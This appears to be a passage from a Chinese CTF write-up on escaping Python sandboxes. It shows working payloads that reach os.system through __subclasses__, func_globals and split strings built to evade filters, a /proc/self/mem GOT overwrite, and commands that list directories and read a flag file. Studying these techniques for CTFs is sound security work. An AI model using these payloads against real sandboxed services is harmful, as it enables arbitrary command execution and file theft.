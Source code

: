 ** exec 和 eval 比较经典了**
```py
eval('__import__("os").system("dir")')

```
**platform**
```py
import platform
print platform.popen('dir').read()
```

## 0x05 __getattr__() 和 __getattribute__() 
python 再访问属性的方法上定义了 __getattr__()  和 __getattribute__()  2种方法，其区别非常细微，但非常重要。

如果某个类定义了 __getattribute__() 方法，在 每次引用属性或方法名称时 Python 都调用它（特殊方法名称除外，因为那样将会导致讨厌的无限循环）。
如果某个类定义了 __getattr__() 方法，Python 将只在正常的位置查询属性时才会调用它。如果实例 x 定义了属性 color， x.color 将 不会 调用x.__getattr__('color')；而只会返回 x.color 已定义好的值。
这里，我们可以通过 __getattribute__ 这个方法做一些事，如下面的payload
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
```

## 0x06 间接的引用调用
在有些题目中，如这次的2018年国赛的 Python 沙盒题目上，import 其实整个是被阉割了。

但是在Python中，原生的 **__import__** 是存在被引用的，只要我们找到相关对象引用就可以进一步获取我们想要的内容，具体下面的demo会讲述到

## 0x07 write修改got表
实际上是一个 **/proc/self/mem** 的内存操作方法
**/proc/self/mem** 是内存镜像，能够通过它来读写到进程的所有内存，包括可执行代码，如果我们能获取到Python一些函数的偏移，如 **system** ，我们就能通过想做pwn题的劫持got表做我们任意想做的事情

```py
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))
```
第一个地址是 system 的偏移，第二个是fopen的偏移，我们可以通过 **objdump** 获取相关信息
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)

# 例子
我们可以通过
`print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()` 
获取题目源码，然后可以进一步分析

## 解决
三种方法
### 0x01
```py
x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')
x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')
```
### 0x02